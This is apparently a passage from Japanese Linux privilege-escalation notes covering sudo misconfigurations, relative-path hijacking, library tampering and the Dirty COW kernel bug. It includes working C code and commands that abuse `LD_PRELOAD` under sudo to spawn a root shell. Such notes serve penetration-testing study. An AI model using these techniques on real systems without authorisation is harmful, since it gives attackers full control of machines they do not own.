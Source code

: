 Linuxデフォルトのコマンドではない独自のスクリプトが実行可能なときは当該スクリプト内で用いられているライブラリを編集してシェルを埋め込むか、ライブラリの脆弱性を検索する。

一般的にコマンドはカレントディレクトリで実行されるのでコマンド(シェルスクリプト)内の処理において相対パスが用いられている場合はカレントディレクトリが基準となる。そのため相対パスで指定されたファイルと同名のファイルを書き込み権限のあるカレントディレクトリに作成して任意のスクリプトを実行できる可能性がある。
## sudo --version
稀に脆弱性のあるバージョンの場合がある。
## LD_PRELOAD
`sudo -l` コマンドを利用したときの結果において、 `env_keep += LD_PRELOAD` となっている場合はshared librariesを利用することができる。shared librariesはプログラムの実行前に読み込まれ実行される。

上記の内容が利用できる場合は以下のCプログラムをshare objectとしてコンパイル( `.so`拡張子)してsudoで実行する。

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

このコードを `shell.c` として保存してgccを用いてコンパイルする。

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

`LD_PRELOAD` オプションにコンパイルしたファイルのパスを指定して実行する。

findの部分にはsudoを実行できるコマンドを入れる。

```bash
sudo LD_PRELOAD=./shell.so find
```
## ENV
`sudo -l` コマンドの結果でSETENVが有効なコマンドがある場合は環境変数を設定してコマンドを実行できる。
# OS Information
## uname
以下のコマンドでカーネルの情報を表示。
```bash
uname -a
```
### Dirty Cow
CVE-2016-5195

Copy on Write機能を利用した特権昇格の脆弱性。Linux kernelの2.x ~ 4.8.2系が対象。
PoCのリスト
